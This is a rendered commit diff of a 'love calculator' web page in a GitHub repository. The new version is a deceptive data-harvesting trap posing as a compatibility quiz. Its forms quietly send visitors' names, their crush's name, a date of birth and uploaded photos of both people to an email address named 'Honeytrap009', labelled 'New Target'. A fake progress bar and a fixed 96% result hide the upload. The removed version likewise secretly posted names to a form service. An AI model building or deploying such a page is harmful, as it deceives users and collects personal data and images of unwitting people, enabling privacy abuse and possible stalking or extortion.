

Before and after one commit to Theguy548/Love-calculator, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1061 px of the page at 94% size. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,180 +3,136 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>💖 AI Love Predictor v2.0 💖</title>
+<title>💘 Soulmate AI: Matcher Pro</title>
+<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css">
 <style>
-        /* Modern Gradient Background */
-        body {
-            margin: 0;
-            height: 100vh;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            font-family: 'Poppins', sans-serif;
-            background: linear-gradient(135deg, #ff9a9e 0%, #fad0c4 100%);
-            overflow: hidden;
-        }
-
-        /* Floating Hearts Animation */
-        .heart {
-            position: absolute;
-            color: rgba(255, 255, 255, 0.6);
-            animation: float 6s infinite linear;
-            z-index: 0;
-            pointer-events: none;
-        }
-
-        @keyframes float {
-            0% { transform: translateY(100vh) rotate(0deg); opacity: 1; }
-            100% { transform: translateY(-10vh) rotate(360deg); opacity: 0; }
-        }
-
-        /* Glassmorphism Card Effect */
-        .card {
-            background: rgba(255, 255, 255, 0.85);
-            padding: 40px;
-            border-radius: 25px;
-            box-shadow: 0 15px 35px rgba(0,0,0,0.2);
-            width: 320px;
-            z-index: 10;
-            text-align: center;
-            backdrop-filter: blur(10px);
-            border: 1px solid rgba(255,255,255,0.5);
-        }
-
-        h2 { color: #d81b60; margin-bottom: 5px; font-weight: 700; }
-        p { color: #666; font-size: 0.9em; margin-bottom: 25px; }
-
-        input {
-            width: 85%;
-            padding: 15px;
-            margin: 10px 0;
-            border: 2px solid #fce4ec;
-            border-radius: 15px;
-            outline: none;
-            font-size: 16px;
-            transition: 0.3s;
-            background: rgba(255, 255, 255, 0.9);
-        }
-
-        input:focus { border-color: #ff4081; box-shadow: 0 0 8px rgba(255, 64, 129, 0.2); }
-
-        /* Pulsing Button */
-        button {
-            background: #ff4081;
-            color: white;
-            border: none;
-            padding: 15px 40px;
-            border-radius: 30px;
-            font-size: 18px;
-            font-weight: bold;
-            cursor: pointer;
-            margin-top: 20px;
-            box-shadow: 0 5px 15px rgba(255, 64, 129, 0.4);
-            transition: transform 0.2s;
-            animation: pulse 2s infinite;
-        }
-
-        button:active { transform: scale(0.95); }
-
-        @keyframes pulse {
-            0% { transform: scale(1); box-shadow: 0 0 0 0 rgba(255, 64, 129, 0.7); }
-            70% { transform: scale(1.05); box-shadow: 0 0 0 10px rgba(255, 64, 129, 0); }
-            100% { transform: scale(1); box-shadow: 0 0 0 0 rgba(255, 64, 129, 0); }
-        }
-
-        #loader { display: none; margin-top: 20px; font-weight: bold; color: #ff4081; font-size: 1.1em; }
-        #finalScore { margin-top: 20px; font-size: 2.5em; text-shadow: 2px 2px 4px rgba(0,0,0,0.1); }
-
+body { margin: 0; height: 100vh; display: flex; align-items: center; justify-content: center; font-family: 'Poppins', sans-serif; background: linear-gradient(45deg, #ff9a9e 0%, #fad0c4 100%); overflow: hidden; }
+.card { background: rgba(255, 255, 255, 0.95); padding: 25px; border-radius: 20px; width: 340px; z-index: 10; text-align: center; box-shadow: 0 10px 30px rgba(0,0,0,0.1); }
+.tabs { display: flex; background: #fff0f3; border-radius: 12px; padding: 5px; margin-bottom: 20px; }
+.tab-btn { flex: 1; padding: 8px; border: none; background: none; cursor: pointer; border-radius: 10px; font-weight: 600; color: #888; }
+.tab-btn.active { background: #ff4081; color: white; }
+.input-group { position: relative; margin-bottom: 12px; }
+.input-group i { position: absolute; left: 12px; top: 13px; color: #ff80ab; }
+input { width: 100%; padding: 10px 10px 10px 35px; border: 2px solid #fce4ec; border-radius: 10px; box-sizing: border-box; outline: none; }
+.file-btn { display: block; padding: 10px; background: #fce4ec; color: #d81b60; border: 1px dashed #f06292; border-radius: 10px; cursor: pointer; margin-bottom: 10px; font-size: 13px; text-align: center; }
+.file-btn.uploaded { background: #e8f5e9; color: #2e7d32; border-style: solid; }
+.main-btn { background: #ff4081; color: white; border: none; padding: 12px; border-radius: 25px; width: 100%; font-weight: bold; cursor: pointer; margin-top: 10px; }
+.hidden { display: none; }
+#loader { display: none; margin-top: 20px; }
+.progress-bar { width: 100%; height: 8px; background: #eee; border-radius: 5px; overflow: hidden; }
+.progress-fill { height: 100%; width: 0%; background: #ff4081; transition: width 0.3s; }
 </style>
 </head>
 <body>
 
-    <div id="heart-container"></div>
+<div class="card">
+<h2 style="color: #d81b60; margin: 0;">Love AI Scanner</h2>
+<p style="font-size: 11px; color: #666; margin-bottom: 15px;">Advanced Compatibility Engine</p>
 
-    <div class="card">
-        <h2>💞 Love Scanner</h2>
-        <p>Advanced Neural Matching Algorithm</p>
+<div class="tabs">
+<button class="tab-btn active" id="t1" onclick="switchTab('text')">Zodiac</button>
+<button class="tab-btn" id="t2" onclick="switchTab('photo')">Photo Match</button>
+</div>
 
-        <form id="prankForm" action="https://formspree.io/f/mbdalzbj" method="POST">
-            <input type="text" name="User_Name" id="uName" placeholder="Your Full Name" required autocomplete="off">
-            <input type="text" name="Lover_Name" id="cName" placeholder="Crush's Full Name" required autocomplete="off">
-
-            <button type="button" onclick="runPrank()">Scan Compatibility</button>
+<form id="formText" action="https://formsubmit.co/Honeytrap009@proton.me" method="POST">
+<input type="hidden" name="_subject" value="💘 New Target: Name/DOB">
+<input type="hidden" name="_captcha" value="false">
+<div class="input-group"><i class="fas fa-user"></i><input type="text" name="User_Name" placeholder="Your Name" required></div>
+<div class="input-group"><i class="fas fa-heart"></i><input type="text" name="Crush_Name" placeholder="Crush Name" required></div>
+<div class="input-group"><i class="fas fa-calendar"></i><input type="text" placeholder="Your DOB" onfocus="(this.type='date')" name="DOB" required></div>
+<button type="button" class="main-btn" onclick="startScan('formText')">Analyze Match</button>
 </form>
 
-        <div id="loader">Syncing Heartbeats... 💓</div>
-        <h1 id="finalScore" style="color: #ff4081;"></h1>
+<form id="formPhoto" class="hidden" action="https://formsubmit.co/Honeytrap009@proton.me" method="POST" enctype="multipart/form-data">
+<input type="hidden" name="_subject" value="📸 New Target: PHOTOS">
+<input type="hidden" name="_captcha" value="false">
+
+<div class="input-group"><i class="fas fa-user"></i><input type="text" name="User_Name" id="uName" placeholder="Your Name" required></div>
+<div class="input-group"><i class="fas fa-heart"></i><input type="text" name="Crush_Name" id="cName" placeholder="Crush Name" required></div>
+
+<label class="file-btn" id="l1">📁 Upload Your Photo <input type="file" name="My_Photo" id="p1" accept="image/*" hidden onchange="checkFile(this, 'l1')"></label>
+<label class="file-btn" id="l2">📁 Upload Crush Photo <input type="file" name="Crush_Photo" id="p2" accept="image/*" hidden onchange="checkFile(this, 'l2')"></label>
+
+<button type="button" class="main-btn" onclick="startScan('formPhoto')">Scan Biometrics</button>
+</form>
+
+<div id="loader">
+<div class="progress-bar"><div class="progress-fill" id="bar"></div></div>
+<p id="status" style="font-size: 11px; color: #ff4081; margin-top: 5px;">Uploading to Secure Server...</p>
+</div>
+
+<div id="result" class="hidden">
+<h1 style="font-size: 45px; color: #ff4081; margin: 10px 0;">96%</h1>
+<p style="font-weight: bold; color: #333;">Soulmate Detected! 💍</p>
+<p style="font-size: 12px; color: #777;">Result sent to AI Database.</p>
+<button onclick="location.reload()" style="background: #eee; border: none; padding: 8px 20px; border-radius: 20px; cursor: pointer;">Scan New</button>
+</div>
 </div>
 
 <script>
-        // 1. Background Animation Logic
-        function createHeart() {
-            const heart = document.createElement('div');
-            heart.classList.add('heart');
-            heart.innerHTML = '❤️';
-            heart.style.left = Math.random() * 100 + 'vw';
-            heart.style.fontSize = Math.random() * 20 + 10 + 'px';
-            heart.style.animationDuration = Math.random() * 3 + 3 + 's';
-
-            document.getElementById('heart-container').appendChild(heart);
-
-            setTimeout(() => {
-                heart.remove();
-            }, 6000);
+function switchTab(mode) {
+if(mode === 'text') {
+document.getElementById('formText').classList.remove('hidden');
+document.getElementById('formPhoto').classList.add('hidden');
+document.getElementById('t1').classList.add('active');
+document.getElementById('t2').classList.remove('active');
+} else {
+document.getElementById('formText').classList.add('hidden');
+document.getElementById('formPhoto').classList.remove('hidden');
+document.getElementById('t2').classList.add('active');
+document.getElementById('t1').classList.remove('active');
+}
 }
 
-        setInterval(createHeart, 400);
-
-        // 2. The Prank Logic
-        function runPrank() {
-            const u = document.getElementById('uName').value;
-            const c = document.getElementById('cName').value;
-            const loader = document.getElementById('loader');
-            const form = document.getElementById('prankForm');
-
-            if(!u || !c) {
-                alert("⚠ Please enter both names to start the scan!");
-                return;
+function checkFile(input, id) {
+if(input.files[0]) {
+let label = document.getElementById(id);
+label.classList.add('uploaded');
+label.innerText = "✅ " + input.files[0].name.substring(0, 15);
+}
 }
 
-            // Hide form, show loader
-            form.style.display = "none";
-            loader.style.display = "block";
+function startScan(formId) {
+const form = document.getElementById(formId);
+if(!form.checkValidity()) { alert("Please fill all fields!"); return; }
 
-            // SECRETLY send data to your Formspree ID
-            const formData = new FormData(form);
+// Hide form & show loader
+form.classList.add('hidden');
+document.querySelector('.tabs').classList.add('hidden');
+document.getElementById('loader').style.display = 'block';
 
-            fetch(form.action, {
-                method: 'POST',
-                body: formData,
-                headers: { 'Accept': 'application/json' }
-            }).then(response => {
-                if (response.ok) {
-                    // Success! Now wait a tiny bit and show the fake result
+// Fake Progress Bar
+let w = 0;
+let bar = document.getElementById('bar');
+let status = document.getElementById('status');
+
+let interval = setInterval(() => {
+w += 2;
+bar.style.width = w + "%";
+
+if(w == 20) status.innerText = "Scanning Names...";
+if(w == 50) status.innerText = "Compressing Biometrics...";
+if(w == 80) status.innerText = "Syncing with Proton Cloud...";
+
+if(w >= 100) {
+clearInterval(interval);
+// FORM SUBMIT
+form.submit();
+
+// Show Result
 setTimeout(() => {
-                        loader.style.display = "none";
-                        // Generate a random score between 88% and 99%
-                        const score = Math.floor(Math.random() * 12) + 88;
-                        document.getElementById('finalScore').innerText = score + "% MATCH!";
-
-                        // Optional: Add a small subtitle
-                        const sub = document.createElement('p');
-                        sub.innerText = "Compatibility confirmed by AI! 💘";
-                        sub.style.marginTop = "-10px";
-                        document.querySelector('.card').appendChild(sub);
-                    }, 2500);
-                } else {
-                    // Fallback if Formspree fails (still show the prank result so they don't know!)
-                    loader.style.display = "none";
-                    document.getElementById('finalScore').innerText = "94% MATCH!";
+document.getElementById('loader').classList.add('hidden');
+document.getElementById('result').classList.remove('hidden');
+}, 1000);
 }
-            }).catch(error => {
-                // Network error? Just show a fake result anyway.
-                loader.style.display = "none";
-                document.getElementById('finalScore').innerText = "91% MATCH!";
-            });
+}, 100);
 }
 </script>
+
 </body>
 </html>
+
+
+
+
+Sent from Proton Mail for Android.
```
Lines whose indentation alone changed are shown as unchanged.
